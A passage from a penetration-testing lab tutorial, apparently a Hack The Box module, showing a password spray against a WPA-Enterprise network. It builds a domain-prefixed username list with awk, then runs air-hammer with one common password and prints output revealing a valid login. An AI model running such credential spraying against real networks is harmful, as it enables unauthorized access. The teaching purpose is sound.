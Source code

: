 We can obtain a user list from [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames/tree/master). However, to make these usernames valid for login, we need to add the appropriate domain prefix to each entry. We can achieve this by using the following command:

```shell
cat /opt/statistically-likely-usernames/john.txt | awk '{print "HTB\\" $1}'

HTB\john
HTB\michael
HTB\david
HTB\chris
HTB\mike
HTB\james
HTB\mark
HTB\jason
HTB\robert
HTB\jessica
HTB\sarah
HTB\jennifer

```

Once we have prepared our user list with the appropriate domain prefix, we can save it to a file ( `domain_users.txt`) and proceed with the password spray attack. Using `air-hammer`, we'll test a specified password against each username in the list to identify valid credentials, as shown below.

```shell
python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt

[0]  Trying HTB\john:football...
[1]  Trying HTB\michael:football...
[2]  Trying HTB\david:football...
[3]  Trying HTB\chris:football...
[4]  Trying HTB\mike:football...
[5]  Trying HTB\james:football...
[6]  Trying HTB\mark:football...
[7]  Trying HTB\jason:football...
[!] VALID CREDENTIALS: HTB\lisa:football
[8]  Trying HTB\robert:football...
[9]  Trying HTB\jessica:football...
[10]  Trying HTB\sarah:football...
[11]  Trying HTB\jennifer:football...
[12]  Trying HTB\paul:football...

```

If we're fortunate, we may discover additional valid credentials (particularly if other users have chosen the same password). This could potentially reveal multiple entry points into the network, increasing the effectiveness of our attack.

* * *

## Resuming Cancelled Attack
